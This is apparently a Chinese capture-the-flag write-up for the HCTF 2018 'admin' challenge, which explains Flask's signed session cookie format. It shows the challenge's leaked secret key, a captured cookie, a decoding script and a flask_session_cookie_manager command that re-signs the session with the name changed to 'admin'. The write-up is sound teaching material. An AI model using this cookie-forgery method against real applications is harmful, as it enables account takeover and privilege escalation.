


用户第一次请求后，将产生的`状态信息保存在session`中，这时可以把session当做一个容器，它保存了正在使用的所有用户的状态信息；这段状态信息分配了一个唯一的标识符用来标识用户的身份，将其保存在响应对象的cookie中；当第二次请求时，解析cookie中的标识符，拿到标识符后去session找到对应的用户的信息

## flask存储session：

1、直接存在客户端的cookie中

2、存储在服务端，如：`redis,memcached,mysql,file,mongodb`等等，存在flask-session第三方库

## flask中session格式：

flask的session格式一般是由`base64加密`的Session数据(经过了json、zlib压缩处理的字符串) . 时间戳 . 签名组成的。

eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Y48ncA.H99Th2w4FzzphEX8qAeiSPuUF_0
session数据 时间戳 签名

时间戳：用来告诉服务端数据最后一次更新的时间，超过31天的会话，将会过期，变为无效会话；

签名：是利用Hmac算法，**将session数据和时间戳加上secret_key加密而成的，用来保证数据没有被修改**。

**要进行flask的session伪造，首先要得到secret_key**

## 题目：[HCTF 2018]admin

在修改密码页面的源代码中发现：https://github.com/woadsl1234/hctf_flask/

在config.py中发现秘钥：`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

对我们自己注册的账户的抓包，得到

```http
Cookie: session=.eJw9kMFuwjAMhl9l8plDm247IHHoFKiYZEdF6arkggotLWkCUwFBg3j3RUxCPlj-f_uz7Dusd0Nz6mB6Hi7NBNb7GqZ3eNvAFFCmsSgXVnDqyeWRMm0kyp8e2XLUpkhQtiNxFWtTO-W_rZDFTctV6NUdcoy0QS-y_EquSJTTVvOUoa97MssYzTxCk97QFDH6YiS5HcNMoozyogy7WNBY_k6-7ijDj1Az5GQxm9-UmcfkrUOGI5XLRMvtDB4T2J6G3fp87JvD6wQqtUWpmJZpghl1Wn51ylAIG3JtyeeM_GIfEJ54nhBf9SKfPXF7V7XNi6Sz389V--8cKhcMGKvjtTnUFUzgcmqG5-sgjuDxB2DGbgs.aMqAdQ.hR4TUzXHPNb-Gqbb6nrlGoR2LwI
```

解密脚本：

```py
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode
 
def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)
 
    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True
 
    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')
 
    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')
 
    return session_json_serializer.loads(payload)
 
if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))   
```



在代码中可以看到



也就是说需要把yaowenda换成admin

```
{'_fresh': True, '_id': b'1059ae83d6d4b849ed3b2f57182465f7fc2e951e4d6fa034f338d06e7bfed0637d625214201255352572037b639d4ce27d877a4c9ce603e0a1b1579f3c25b7e7', 'csrf_token': b'5fe166e070cae0ab3c69ab7e74671be7344744d9', 'image': b'djzF', 'name': 'admin', 'user_id': '10'}
```

然后执行命令：

```py
python flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': '1059ae83d6d4b849ed3b2f57182465f7fc2e951e4d6fa034f338d06e7bfed0637d625214201255352572037b639d4ce27d877a4c9ce603e0a1b1579f3c25b7e7', 'csrf_token': '5fe166e070cae0ab3c69ab7e74671be7344744d9', 'image': 'djzF', 'name': 'admin', 'user_id': '10'}" 
```

不能用python3 而是用python，因为在我电脑上`python` 与 `python3` 指向不同的解释器
